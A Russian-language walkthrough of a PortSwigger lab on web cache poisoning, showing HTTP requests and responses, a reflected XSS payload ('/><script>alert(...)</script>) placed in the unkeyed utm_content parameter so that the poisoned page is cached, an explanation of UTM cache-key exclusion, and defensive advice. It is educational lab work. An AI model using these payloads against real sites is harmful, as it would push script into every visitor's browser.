



##### Отравление веб-кэша из-за неподключенного параметра запроса

лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-unkeyed-param

задание: 

отравить кеш главной стр так - чтобы вызвать у всех посетителей аллерт alert(1)

------

вот ориг главн страница

```http
GET / HTTP/1.1
Host: 0a7f00b20358aa9a8005037800b100a7.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

----------

в этом же запросе делаю так сразу
```http
GET /?xxx=777 HTTP/2
```
и получаю ответ с отражением в нем моего пейлоада
ну не сказка ли...?

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=I2NeParCLKSnGf4FCO733RyQ8fWbieAE; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 8465

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//0a7f00b20358aa9a8005037800b100a7.web-security-academy.net/?xxx=777'/>
        <title>Web cache poisoning via an unkeyed query parameter</title>
    </head>
```

но самое веселое здесь другое, что этот мой  `/?xxx=777`

с лету мучу пейлоад 
```js
'/><script>alert(1337)</script>
```

и вуаля! идем по ссылке -и получаем алерт
```http
https://0a7f00b20358aa9a8005037800b100a7.web-security-academy.net/?xxx=%27/%3E%3Cscript%3Ealert(1337)%3C/script%3E
```
здравствуй самый настоящий XSS




-----
xss уже есть, но мне нужно отравление кеша

но есть проблемка, этот парметр мой  `/?xxx=777` не сохраняется в кеш, он работает просто как чистый xss

я так понимаю, нужно заставить его сохраниться в кеш!!!

------


ну на всякий случай, почему бы и нет, лаба же, кину это разок
```http
GET /?xxx=77777777777777777777 HTTP/2
Host: 0a7f00b20358aa9a8005037800b100a7.web-security-academy.net
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Forwarded-Host: xxxx11
X-Forwarded-Scheme: xxx2
X-Forwarded-Server: xxx3
X-Host: xxx4
X-Original-Url: xxx5
X-Rewrite-Url: xxx6
X-Http-Method-Override: xxx7
Forwarded: xxx8
Origin: xxx9
Accept-Encoding: xxx11
Cookie: xxx22
Pragma: akamai-x-get-cache-key33
X-Cache-Key: xxx44
X-True-Cache-Key: xxx55
Cache-Status: xxx66
Cf-Cache-Status: xxx77
X-Cache: xxx88
X-Cache-Hits: xxx99
Via: xxx111
Age: xxx222
Cache-Control: xxx333
Vary: xxx444


```

отражений не увидел

----

в подсказке к лабе сказано про utm_content

пробую 
```http
GET /?utm_content=77777777777777777777 HTTP/2
```

ответ 
```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=FAtB7k5T3y0Jg60bZ2cFCaPvBidxZeaB; Secure; HttpOnly; SameSite=None
Set-Cookie: utm_content=77777777777777777777; Secure; HttpOnly
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 8490

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <link rel="canonical" href='//0a7f00b20358aa9a8005037800b100a7.web-security-academy.net/?utm_content=77777777777777777777'/>
        <title>Web cache poisoning via an unkeyed query parameter</title>
```


вот оно, счастье!!
я после запроса с 
GET /?utm_content=77777777777777777777 HTTP/2

делаю запрос 
GET / HTTP/2

и вижу в ответе 
    `   <link rel="canonical" href='//0a7f00b20358aa9a8005037800b100a7.web-security-academy.net/?utm_content=77777777777777777777'/>`




то есть получилось в кеш сохранить мой параметр

---------------
#### че за зверь этот utm_content и почему он сохраняется в кеш?

```c
utm_content это параметр из семейства utm-меток (urchin tracking module)

их придумали для google analytics чтобы отслеживать откуда пришел пользователь  

utm_source - источник трафика  
utm_medium - тип канала  
utm_campaign - название кампании  
utm_content - конкретный элемент внутри кампании (например какая кнопка или баннер)

почему сайты исключают их из кэша  
потому что если их не исключить - один и тот же контент будет множиться в кэше под разными ключами  
например пользователи переходят по ссылкам  

/ ?utm_content=button1  
/ ?utm_content=button2  
/ ?utm_content=email  

это три разных ключа но страница одна и та же  
кэш будет хранить три копии что бессмысленно и жрет место

поэтому админы настраивают кэш так чтобы игнорировать utm-параметры  
все запросы с любыми utm-метками считаются одним ключом

и здесь возникает дыра  =
если параметр исключен из ключа, но его значение отражается на странице, 
злоумышленник может вставить в него xss-пейлоад,  
этот ответ закешируется и будет выдаваться всем, кто заходит без параметров или с любыми другими utm-метками
```

ну а теперь пришло время сделать так

`GET /?utm_content='/><script>alert(1)</script> HTTP/2`

и лаба решена, все кто зашел на стр в течении 35 сек от моего запроса - получал js скрипт в своем браузере




----

#### суть + выводы

я нашел, что параметр `utm_content` исключен из ключа кэша  

это сделано чтобы разные utm-метки не плодили лишние копии страницы  

но разработчик не подумал, что значение этого параметра отражается в html

я вставил в utm_content пейлоад который закрывает кавычку и тег link,  
а потом добавляет свой скрипт  
`'/><script>alert(1)</script>`

> никакой санитаризации не было вообще

кэш сохранил этот ответ,  
и после этого каждый кто заходил на главную страницу без параметров,  
получал из кэша страницу с моим скриптом

 #### как защититься

1- если уж исключать параметры из ключа  тo - проверять что их значения не отражаются на странице  

2- экранировать спецсимволы при вставке в html

3- настроить csp чтобы скрипты с недоверенных источников не выполнялись  

4- не использовать utm-параметры для генерации контента на сервере  

они должны быть только для аналитики и удаляться до того как страница попадет в кэш